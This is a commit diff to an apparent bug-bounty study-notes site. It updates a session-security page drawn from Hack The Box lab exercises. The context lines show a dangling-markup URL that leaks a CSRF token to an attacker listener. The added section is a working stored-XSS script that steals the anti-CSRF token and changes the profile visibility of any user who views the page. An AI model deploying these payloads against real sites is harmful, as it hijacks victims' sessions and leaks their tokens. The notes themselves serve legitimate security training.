

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/session-security.md, in a window 1280 px wide and 900 px high, scrolled down 5846 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6215 px from its top, so only the background shows below that.

Commit message:
update session security page

````diff
--- a/docs/bug-bounty-guide/session-security.md
+++ b/docs/bug-bounty-guide/session-security.md
@@ -212,3 +212,26 @@ nc -nlvp 8000
 ```
 - visit ```http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f``` where ```%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f``` is the reflected part
 - listener should record the csrf token which can be used for post requests
+
+
+### XSS & CSRF Chaining
+
+- In this example we change the profiles visibility
+- Use the below script to recreate changing the profiles visibility
+```javascript
+<script>
+var req = new XMLHttpRequest();
+req.onload = handleResponse; // triggers the handle response function on page load
+req.open('get','/app/change-visibility',true); // get request for the change visibility page
+req.send();
+function handleResponse(d) {
+    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1]; // locates the csrf token
+    var changeReq = new XMLHttpRequest();
+    changeReq.open('post', '/app/change-visibility', true); // creates post request
+    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); // sets the header
+    changeReq.send('csrf='+token+'&action=change'); // uses the previously aquired anti-csrf token and changes profile visibility
+};
+</script>
+```
+- Enter the script into a field vulnerable to XSS and update the profile
+- Now when a different user visits that persons public profile the script will be executed and their profile visibility will change
````
